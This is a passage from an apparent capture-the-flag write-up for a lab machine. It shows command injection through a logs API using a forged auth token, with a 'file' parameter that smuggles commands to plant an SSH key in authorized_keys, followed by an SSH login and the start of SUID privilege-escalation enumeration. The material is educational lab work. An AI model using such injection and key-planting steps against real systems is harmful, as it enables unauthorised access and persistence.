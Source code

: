 ![Writeup](./images/seventh.png)

This command generates a new SSH public and private key in your current directory named `10.10.11.120`.

To ensure the public key is added, make sure that the `.ssh` folder exists on the system, and there is a file called `.ssh/authorized_keys`. Rather than manually checking, we can add commands that won’t overwrite any existing files or folders, but will create them if they don’t exist.

-   `mkdir -p /home/dasith/.ssh`
-   `echo $PUBLIC_KEY >> /home/dasith/.ssh/authorized_keys`

First, store the contents of your public key into a bash variable:

```bash
[user@parrot]~$ curl -i -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MjFlMTU1MmM5ZTZlYjA0NjFjOWE1ZGIiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6Im5pa2tAZGFzaXRoLndvcmtzIiwiaWF0IjoxNjQ2MTM4ODYzfQ.7fwnTwm0Ze-63VU-K-fVIochFfesOjlvi6S-DTHJJek' -G --data-urlencode "file=index.js; mkdir -p /home/dasith/.ssh; echo $PUBLIC_KEY >> /home/dasith/.ssh/authorized_keys" '<http://10.10.11.120/api/logs>'
```

![Writeup](./images/eigth.png)

Receiving a 200 indicates that our test probably worked! SSH into the box.

```bash
[user@parrot]~$ ssh -i 10.10.11.120 dasith@10.10.11.120
```

![Writeup](./images/nineth.png)

Get that user hash

```bash
[user@parrot]~$ cat user.txt
```

Probably a bit too much partying for `user`, but it is still hella exciting! Keep that energy going and root this bad boy.

### Enumeration: The Box

The typical enumeration didn’t lead to anything blatantly obvious. Trying `linenum.sh` was a bust. I usually try the `/opt` folder to see if any extra manually installed applications are live. Excellent! We have some C code, a compiled version of it with a SUID bit enabled (owned as root), and a Valgrind output file.

This was the most difficult part of the box for me, and it took quite a while. Honestly, this is really where I think it leaves the “easy” realm and becomes a more “medium” box.

Before diving into the code, check out the program in action. Since we have the SUID bit enabled, we can run this application as its owner, in this case, `root`!

![Writeup](./images/tenth.png)

Enter `/root/root.txt` since that’s a file known to exist on this system. It has a similar output to the `wc` command, and there’s even an option to save the output to a file. Doing so only saves the count data, nothing about the actual file contents. Disappointing. Try again using the `/root` directory. This is great, there's access to `root`, but it needs to be leveraged into privilege escalation.
